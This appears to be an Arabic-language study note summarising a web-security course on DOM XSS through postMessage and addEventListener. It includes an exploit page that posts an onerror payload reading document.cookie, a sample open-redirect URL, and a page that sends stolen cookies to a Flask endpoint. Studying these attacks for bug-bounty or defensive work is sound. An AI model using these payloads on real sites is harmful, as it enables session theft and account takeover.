 ## شرح الفديوهات من الكورس حسام شادي  ==> 
![[006 PostMessage &Dom XSS 1.mp4]]


## اول سيناريوا انك تلاقي ال function  اسمها addEventListener عند التارجت :
#### الشرح :
![[2025-05-15 20-56-35.mkv]]
![[2025-05-15 21-30-10.mkv]]
#### ملف الصفحه بتاعي  اللي في الشرح :
```html
<!DOCTYPE html>
<html>
<head>
  <title>Payload</title>
</head>
<body onload="exploit()">

<script>
function exploit() {
    var win = window.open("رابط التارجت", "exploit");

    setTimeout(() => {
        const payload = `<img src="x" onerror="alert(document.cookie)">`;
        win.postMessage(payload, "*");
    }, 500); // زوّد التوقيت شوية علشان تضمن الصفحة حملت
}
</script>

<button onclick="exploit()">Exploit</button>
<iframe name="exploit" style="display:none;"></iframe>

</body>
</html>


```


##   ثاني  سيناريوا انك تلاقي ال function  اسمها postMessage عند التارجت :

#### الشرح :
![[2025-05-15 22-28-08.mkv]]
#### ملف الصفحه بتاعي  اللي في الشرح :
```javascript
<!DOCTYPE html>
<html>
<head>
  <title>Index Page (Receiver)</title>
</head>
<body>
  <h2>أنا صفحة الإندكس اللي فيها iframe وبتستقبل الرسالة</h2>

  <iframe src="target.html" width="600" height="300"></iframe>

  <script>
    window.addEventListener("message", function(event) {
      // ممكن تضيف تحقق من origin لو حبيت
      alert("استلمت الرسالة: " + event.data);
    }, false);
  </script>
</body>
</html>

```



## استغلال الaddEventListener وال postMessage  بس بلغات تانيه زي ال nude js وال flask
![[2025-05-16 00-49-25.mkv]]
#### ملف الصفحه بتاعي  اللي في الشرح    nude js :

```http
https://vulnerable-site.com/redirect?url=https://malicious-site.com
```

#### ملف الصفحه بتاعي  اللي في الشرح    flask :
```html
<!DOCTYPE html>

<html>

<head><title>هاكر</title></head>

<body>

<h1>سرقنا الداتا ✅</h1>

<script>

fetch("http://127.0.0.1:5000/send_message", {

  method: "POST",

  headers: { "Content-Type": "application/x-www-form-urlencoded" },

  body: "message=" + encodeURIComponent(document.cookie)

}).then(() => {

  document.body.innerHTML += "<p>✔️ تمت العملية بنجاح</p>";

});

</script>

</body>

</html>
```


خش لخص الكلام اللي في الموقع ده مهم  https://github.com/yavolo/eventlistener-xss-recon